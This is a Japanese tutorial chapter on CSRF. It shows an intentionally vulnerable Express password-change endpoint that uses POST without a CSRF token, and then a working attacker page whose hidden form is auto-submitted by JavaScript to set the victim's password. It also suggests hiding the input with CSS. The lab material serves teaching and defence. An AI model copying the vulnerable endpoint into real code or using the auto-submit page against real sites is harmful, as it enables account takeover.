 # POST を使ってみる

前節では、認証機構を取り入れたとしても CSRF の脆弱性が発生することを確認しました。
本節では、まず前節のような、リンクを送信するだけで行える攻撃を無効化するために POST メソッドを導入します。その後、単純に POST メソッドを用いるだけでは、CSRF の脆弱性が存在したままであることを示します。

## HTTP メソッドについて

GET や POST といった HTTP メソッドについて概要を説明します。

HTTP メソッドは、指定した URL にどのような操作を要求するのかを、クライアントがサーバー側に伝えるものです。
たとえば、GET メソッドを使った場合は、指定した URL のリソースを取得すること求めていますし、POST メソッドを使った場合は、指定した URL に対して、なんらかの情報を送信して、それに紐づいた操作を行うことを求めます。

詳しくは下記の記事を参考にしてください

HTTP メッセージ - HTTP | MDN
https://developer.mozilla.org/ja/docs/Web/HTTP/Messages

HTTP リクエストメソッド - HTTP | MDN
https://developer.mozilla.org/ja/docs/Web/HTTP/Methods

重要なことは、サーバー側のアプリケーションにとって HTTP メソッドはただの取り決めであり、求められた理念とは異なる処理を容易に実行できてしまうことです。
理念とは異なる処理とは、例えば GET メソッドにパスワード変更の処理を紐づけるなどです。

## サンプルアプリの説明

サンプルアプリは以下のような実装です

```ts
// /3-post-password-change-dangerous というパスに post メソッドのリクエストがきたときにこの処理を実行する
router.post("/3-post-password-change-dangerous", (req, res) => {
  // cookie から sessionId をとりだし、それを検証してログイン済みかどうか確かめる
  const sessionId = req.cookies["sessionId"];
  const { newPassword } = req.body;
  if (!sessionId || !sessionIds[sessionId]) res.send("login required");
  //   新しいパスワードが送られてきているか確かめて、パスワードを更新する
  else if (typeof newPassword !== "string") res.send("newPassword is required");
  else {
    const userName = sessionIds[sessionId].userName;
    changePassword(userName, newPassword);
    res.send("password changed!");
  }
});
```

前節のコードと大きく変わったところは、HTTP メソッドが get から post になったことです。
では、このエンドポイントをどのように使うのかを確認しましょう。

## パスワード変更の正常系

ユーザーは、以下のページにアクセスします。

http://localhost:3000/3-post-password-change-dangerous

すると、フォームが表示されます。ユーザーは新しいパスワードを入力し、submit ボタンを押します。すると、http://localhost:3000/3-post-password-change-dangerous に post リクエストがとび、パスワードが変更されます。
実際にパスワードを変更してみましょう。サーバー側にログが出ていることを確認できるはずです。
なお、get リクエストのときは、以下のような処理が実行されています

```ts
router.get("/3-post-password-change-dangerous", (_req, res) => {
  res.send(`
    <form id="form" action="http://localhost:3000/3-post-password-change-dangerous" method="post">
    <input name="newPassword" type="text" value=""></input>
    <button type="submit">submit</buttion>
    </form>
    `);
});
```

## 防御の検証

POST メソッドを使ったことで、前回と同じような攻撃はできなくなっています。その理由を以下に説明します。

前回は、悪意のあるリンクをユーザーに送っていました。そして、ユーザーがそのリンクを踏むと同時にパスワード変更のリクエストが送信され、ユーザーのパスワードが攻撃者の指定したパスワードに変更されてしまいました。
POST メソッドの場合を考えてみると、以下の二つの点から上記の攻撃ができなくなっていることがわかります。

- リンクをクリックしたときには GET リクエストが送られる。POST リクエストを送信するためには、フォームを使ってユーザーが明示的に submit ボタンを押さなければならないこと
- URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと

そのため、たとえば攻撃者が以下のようなリンクをユーザーに送ったとしても、前節のように攻撃が成功することはありません。
http://localhost:3000/3-post-password-change-dangero?newPassword=evil

## 攻撃の検証

しかし、この post メソッドを使った防御はあっさりと破られます。
順番に見ていきましょう。

### URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと

まず、「URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと」について攻撃側の対応策を考えます。

ようは、フォームの初期値を指定できればいいのです。そして、なんとフォームの input タグは初期値を指定できます。
そのため、自分でウェブサイトを作って、フォームの初期値を指定したページを用意します。
そして、submit したときの送信先を http://localhost:3000/3-post-password-change-dangero にすれば、攻撃者が指定したパスワードで更新させることが可能です。
ついでに、新しいパスワードの input 要素を CSS でめっちゃ小さくしたり、透明にしてユーザーから見えなくし、submit ボタンをリンク遷移のボタンなどに見せかければ完璧でしょう。

### POST リクエストを送信するためには、フォームを使ってユーザーが明示的に submit ボタンを押さなければならないこと

次に、「POST リクエストを送信するためには、ユーザーが明示的に submit ボタンを押さなければならないこと」について対応策を考えます。
結論からいえば、JavaScript を使うことで、自動でフォームを送信することが可能です。フォームの初期値設定と組み合わせることで、ユーザーがリンクをクリックしてページが読み込まれた瞬間に、攻撃者が指定したパスワードに更新する POST リクエストを自動で送ることができるのです。

### 具体的な攻撃

攻撃者は、以下のようなページを用意します。

```ts
app.get("/3-post-password-change-dangerous", (_req, res) => {
  res.send(`
  <form id="form" action="${ORIGIN_BASE_URL}/3-post-password-change-dangerous" method="post" style="display: none;">
  <input name="newPassword" type=text value="aaaaaaa"></input>
  <button type="submit">submit</buttion>
  </form>
  <script>
    // form 要素を JavaScript で操作できるように取得する
    const form = document.getElementById("form")
    // form を操作して、submit する
    form.submit()
  </script>
`);
});
```

注目してほしいのは、以下の二点です。
まず、こちらでフォームの初期値を `aaaaaaa` に設定しています。

```html
<input name="newPassword" type=text value="aaaaaaa"></input>
```

次に、こちらでこのスクリプト部分が読み込まれた瞬間にフォームを送信しています。

```ts
// form 要素を JavaScript で操作できるように取得する
const form = document.getElementById("form");
// form を操作して、submit する
form.submit();
```

実際に攻撃してみましょう。以下のリンクにアクセスすると、上記のコードが実行され、パスワードが変更されたというログがでるはずです。
http://localhost:4000/3-post-password-change-dangerous
